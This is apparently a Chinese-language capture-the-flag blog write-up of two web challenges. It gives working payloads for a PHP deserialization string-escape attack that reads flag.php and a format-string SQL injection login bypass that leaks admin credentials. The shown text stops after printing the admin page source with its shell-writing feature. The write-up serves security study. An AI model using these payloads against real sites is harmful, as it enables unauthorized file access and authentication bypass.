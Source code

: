 ```yaml
---
layout: post
title: 
data: 
categories: 
tags: 
description: 
excerpt_separator: ""
---
```


# Ezunserialize

## 题目描述

直接给了源码：

```php
<?php
show_source("index.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}

$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
```

## 解题思路

思路很明确由B类到C类读取flag.php，不过看起来只能传入给A类的字符串，需要序列化逃逸。

read()函数会将`'\0\0\0'`替换为`"\0*\0"`，注意一下，前者由单引号围绕，不表示转义，即包含6个字符，而后者由双引号包围，转义为空白符，即包含三个字符。

先构造理想的序列化字符串：

```php
<?php
$c = new C();
$b = new B();

$c->c = "flag.php";
$b->b = $c;
echo serialize(new A("foo", $b));
?>
```

结果：

```php
O:1:"A":2:{s:8:"username";s:3:"foo";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
```

需要吞掉24个字符，于是提交的序列化字符串为：

```shell
O:1:"A":2:{s:8:"username";s:48:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:74:";";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}
```

Payload：

```
?a=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0
&b=%3B%22%3Bs%3A8%3A%22password%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3BO%3A1%3A%22C%22%3A1%3A%7Bs%3A1%3A%22c%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7D
```

## 备注

1. 这道题就是完全没有注意到单引号，一直在想属性的访问控制什么的。

# babytricks

## 题目描述

一个登录框，源码中有提示

```html
<!-- tips:select * from user where user='$user' and passwd='%s'-->
```

## 解题思路

很明显的格式化字符串，Payload：

```
POST：user=admin%1$c
passwd=39
```

有个跳转，输出了一个数组：

```
Array(
    [0] => 1
    [id] => 1
    [1] => admin
    [user] => admin
    [2] => GoODLUcKcTFer202OHAckFuN
    [passwd] => GoODLUcKcTFer202OHAckFuN
)
```

应该是账号密码了，然后说前台什么都没有了，那就去后台，扫一下目录，可以看到源码：

```php
Your sandbox: ./shells/LYmjizTyfRfRj1bz/ set your shell
<?php
error_reporting(0);
session_save_path('session');
session_start();
require_once './init.php';
if($_SESSION['login']!=1){
    die("<script>window.location.href='./index.php'</script>");
}
if($_GET['shell']){
    $shell= addslashes($_GET['shell']);
    $file = file_get_contents('./shell.php');
    $file = preg_replace("/\\\$shell = '.*';/s", "\$shell = '{$shell}';", $file);
    file_put_contents('./shell.php', $file);
}else{
    echo "set your shell"."<br>";
    chdir("/");
    highlight_file(dirname(__FILE__)."/admin.php");
}
?>
```

